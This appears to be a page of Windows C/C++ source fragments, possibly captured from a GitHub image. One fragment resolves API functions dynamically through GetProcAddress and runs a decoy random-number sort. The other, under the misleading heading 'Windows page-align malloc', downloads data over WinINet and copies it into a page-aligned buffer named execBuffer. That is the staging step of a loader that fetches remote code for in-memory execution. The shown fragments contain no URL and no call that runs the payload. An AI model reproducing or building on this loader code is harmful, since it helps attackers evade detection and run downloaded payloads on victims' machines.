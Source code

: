 ```cpp
    pRand randFn = (pRand)GetProcAddressFn(hMsvcrt, "rand");
    pMalloc mallocFn = (pMalloc)GetProcAddressFn(hMsvcrt, "malloc");
    pFree freeFn = (pFree)GetProcAddressFn(hMsvcrt, "free");
    pMessageBoxA MessageBoxA = (pMessageBoxA)GetProcAddressFn(hUser32, "MessageBoxA");

    int k = 50000;
    vector<int> brr(k, mallocFn, freeFn);

    for (int j = 0; j < k; ++j) {
        brr.push_back(randFn());
    }

    Sort(brr);

    MessageBoxA(NULL, "Sort complete!", "Status", MB_OK);
    pExitProcess ExitProcessFn = (pExitProcess)GetProcAddressFn(hKernel32, "ExitProcess");
	ExitProcessFn(0);
}
```

## Windows page-align malloc
```c
#define CHUNK (56 * 1024)
#define MAX_CHUNKS 5
#define PAGE_SIZE 4096
DWORD totalSize = 0, bytesRead = 0;
DWORD maxSize = MAX_CHUNKS * CHUNK;
void* tempBuffer = mallocFunc(maxSize);
if (!tempBuffer) {
    InternetCloseHandle(hFile);
    InternetCloseHandle(hInternet);
    return -1;
}

while (totalSize < maxSize) {
    if (!InternetReadFile(hFile, (BYTE*)tempBuffer + totalSize, CHUNK, &bytesRead) || bytesRead == 0) {
        break;
    }
    totalSize += bytesRead;
}

InternetCloseHandle(hFile);
InternetCloseHandle(hInternet);

if (totalSize == 0) {
    MessageBoxA(NULL, "No data downloaded", "Error", MB_OK);
    freeFunc(tempBuffer);
    return -1;
}

size_t roundedSize = (totalSize + PAGE_SIZE - 1) & ~(PAGE_SIZE - 1);
void* raw = mallocFunc(roundedSize + PAGE_SIZE);
if (!raw) {
    MessageBoxA(NULL, "Failed to allocate raw buffer", "Error", MB_OK);
    freeFunc(tempBuffer);
    return -1;
}

void* execBuffer = (void*)(((uintptr_t)raw + PAGE_SIZE - 1) & ~(PAGE_SIZE - 1));
memcpy(execBuffer, tempBuffer, totalSize);
freeFunc(tempBuffer);
```